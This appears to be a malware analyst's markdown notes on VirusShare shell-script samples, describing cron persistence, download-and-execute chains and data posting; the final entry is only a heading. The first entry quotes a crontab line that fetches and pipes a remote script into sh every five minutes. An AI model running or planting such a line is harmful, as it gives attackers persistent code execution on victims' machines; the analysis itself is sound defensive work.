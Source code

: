 

-------------------------------------------------

# VirusShare_557607ea0f6c5c0a7448ac2a2a4552f1.sh 

This looks like a modified version of other scripts. Because it comments out some commands and add something. 

## Summary
Set the `PATH` and `SHELL` variable, but does not `export` them to make them effective. 
Identify whether the caller of this script is a `root`. If it's a root user, it will set the cron.
```
  echo "*/5 * * * * curl -fsSL http://e3sas6tzvehwgpak.tk/r88.sh|sh" > /var/spool/cron/root
  mkdir -p /var/spool/cron/crontabs
  echo "*/5 * * * * curl -fsSL http://e3sas6tzvehwgpak.tk/r88.sh|sh" > /var/spool/cron/crontabs/root
```

After that, it downloads using `curl`, change permission, execute. 
If the previous does not run successfully, it download using `wget`, change permission, and execute. 


## Notes
Not a well written script. E.g., the if is duplicated. 



-------------------------------------------------

# VirusShare_9d6b6554d50841b322dd1aa64966414a.sh

This script looks a little bit innocent because it does not have DW-CH-EXE-RM chain. 

## Summary
Get current place using `pwd`. 
`echo` a hard-coded data and redirect it to `data.file`. 
`cat` the `data.file` and use that output as the parmater of `curl -d` to a URL. 
Finally, it exeuctes two scripts `./sparky.sh 192.168` and `./rand > /dev/null &`. 
It removes the `data.file`. 


## Notes
1. hard-coded stuff is usually suspecious. Because benign users don't use that, they have more convenience to read from a file, or execute specific client program. In addition, normal users don't want to expose sensitive info in the command line history. 


-------------------------------------------------

# VirusShare_7392ef495b243c80f3973845d0ada6f1.sh
